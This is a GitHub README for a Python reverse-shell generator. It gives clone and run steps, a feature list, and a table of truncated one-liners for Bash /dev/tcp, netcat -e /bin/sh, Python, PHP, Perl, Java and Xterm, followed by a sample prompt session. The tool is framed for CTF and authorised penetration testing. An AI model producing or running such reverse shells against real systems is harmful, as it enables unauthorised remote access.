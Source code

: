 # 🔥 Reverse-shell-generator 
![](images/py.png)
## 🚀 Installation
<b>You can use the Reverse Shell Generator script by cloning the repository:</b>
```python
git clone https://github.com/CyberKRY/reverse-shell-generator.git
cd reverse-shell-generator
```
<b>It is recommended to run the script with Python 3 installed on your system. It is cross-platform and does not require any additional libraries.</b>

## Quick Start:
```python
python3 shellgen.py
```
## ✨ Features
<b>
  
* Supports seven languages: Bash, Python, PHP, Perl, Netcat, Java and Xterm.

* Instant generation: Simply select a number, IP address and port to create a reverse shell that is ready to use.

* Colourful CLI interface: Stylish and easy to read thanks to the ANSI layout.

* Minimalism: Lightweight with no dependencies; runs instantly.

* Versatility: Great for CTF, penetration testing, training and automation.
</b>

## 📥 Supported Shells
| № | Язык   | Команда                                |
| - | ------ | -------------------------------------- |
| 1 | Bash   | `bash -i >& /dev/tcp/...`              |
| 2 | Python | `python3 -c 'import socket,...'`       |
| 3 | PHP    | `php -r '$sock = fsockopen(...); ...'` |
| 4 | Perl   | `perl -e 'use Socket; ...'`            |
| 5 | Netcat | `nc -e /bin/sh ...`                    |
| 6 | Java   | `Runtime.getRuntime().exec(...)`       |
| 7 | Xterm  | `xterm -display IP:PORT`               |

## Conclusion:
```python
Enter the Reverse Shell number: 2
Enter IP address: 10.8.0.1
Enter port number: 4444
```
## ⚠️ Warning
> <b>This tool is intended solely for training purposes or legal testing. Only use it in systems where you have authorisation.</b>


<b>Thank you very much for your interest in my robot. This is one of the first scripts I have created, and I will create more and better ones in future. Thank you again.</b>
